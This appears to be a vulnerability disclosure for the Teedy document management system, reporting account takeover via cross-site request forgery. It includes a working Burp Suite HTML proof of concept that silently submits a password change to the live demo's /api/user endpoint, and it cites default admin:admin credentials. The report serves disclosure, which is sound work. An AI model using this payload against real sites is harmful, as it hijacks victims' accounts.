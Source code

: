 # Description

Teedy is a lightweight document management system packed with all the features you can expect from big expensive solutions. It is vulnerable to account takeover with CSRF.

# Proof of Concept

1. Install the package by following these [instructions](https://github.com/sismics/docs#install-with-docker) or try the live demo https://demo.teedy.io
2. Login as admin with credentials `admin:admin`
3. Generate CSRF PoC from burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://demo.teedy.io/api/user" method="POST">
      <input type="hidden" name="password" value="hacked123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
4. Visit the payload URL and click submit button
5. The user's password is changed successfully

# Impact

An attacker is able to takeover any account

